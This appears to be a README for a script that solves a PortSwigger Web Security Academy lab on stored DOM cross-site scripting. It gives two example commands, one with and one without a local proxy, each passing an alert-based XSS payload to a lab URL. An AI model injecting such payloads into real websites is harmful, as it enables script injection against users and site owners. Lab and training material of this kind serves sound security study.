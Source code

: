 # How to run script.py

### Stored DOM XSS

No proxy:
- `python3 script.py -u "https://0a4b003803f44a75c13da5e2009400df.web-security-academy.net" -c "<><img src=x onerror=alert('XSS')>"`

Proxy:
- `python3 script.py -u "https://0a4b003803f44a75c13da5e2009400df.web-security-academy.net" -c "<><img src=x onerror=alert('XSS')>" -p 127.0.0.1:8080`
